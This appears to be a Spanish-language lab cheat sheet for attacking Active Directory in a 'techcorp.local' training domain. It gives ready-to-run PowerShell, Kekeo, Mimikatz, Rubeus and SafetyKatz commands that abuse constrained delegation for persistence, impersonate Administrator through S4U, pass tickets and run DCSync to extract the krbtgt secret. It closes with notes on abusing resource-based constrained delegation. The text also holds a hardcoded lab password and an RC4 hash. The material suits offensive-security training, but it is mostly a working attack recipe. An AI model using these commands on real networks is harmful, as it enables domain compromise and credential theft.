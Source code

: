 ```
# Modulo AD
# Persistencia - msDS-AllowedToDelegateTo
### Modificar el atributo SPN
Set-ADUser -Identity devuser -ServicePrincipalNames @{Add='dev/svc'}
### Modificar el atributo msds-allowedtodelegateto
Set-ADUser -Identity devuser -Add @{'msDS-AllowedToDelegateTo'= @('ldap/us-dc','ldap/us-dc.us.techcorp.local')} -Verbose
### Activar 'TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION'
Set-ADAccountControl -Identity devuser -TrustedToAuthForDelegation $true
### Enumerar objetos Constrained Delegation
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

- Ahora el usuario ``devuser`` está configurado con Constrained Delegation - Protocol Transition

```
# Kekeo y Mimikatz
### Solicitar TGT
kekeo# tgt::ask /user:devuser /domain:us.techcorp.local /password:Password@123!

### Solicitar ST de Administrator sobre ldap
### Solo S4uSelf?
kekeo# tgs::s4u /tgt:TGT_devuser@us.techcorp.local_krbtgt~us.techcorp.local@us.techc
orp.local.kirbi /user:Administrator@us.techcorp.local /service:ldap/us-dc.us.techcorp.local

### PassTheTicket
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@us.techcorp.local@us.techcorp.local_ldap~us-dc.us.techcorp.local@us.techcorp.local.kirbi"'

### Ataque DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

```
# Rubeus
### Obtener Hash 
Rubeus.exe hash /password:Password@123! /user:devuser /domain:us.techcorp.local

### S4U2Self 
Rubeus.exe s4u /user:devuser /rc4:539259E25A0361EC4A227DD9894719F6 /impersonateuser:administrator /msdsspn:ldap/us-dc.us.techcorp.local /domain:us.techcorp.local /ptt 

### Ataque DCSync
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```
### RBCD

- Para configurar RBCD no necesitas privilegios de Domain o Enterprise Admin
- RBCD se configura en un atributo que tienen las cuentas de servicio llamada ``msDS-AllowedToActObBehalfOfOtherIdentity``, entonces si en algún momento tienes permisos de escritura para escribir este atributo en cualquier cuenta de servicio, le podrás configurar RBCD para que confíe en una cuenta que controles.
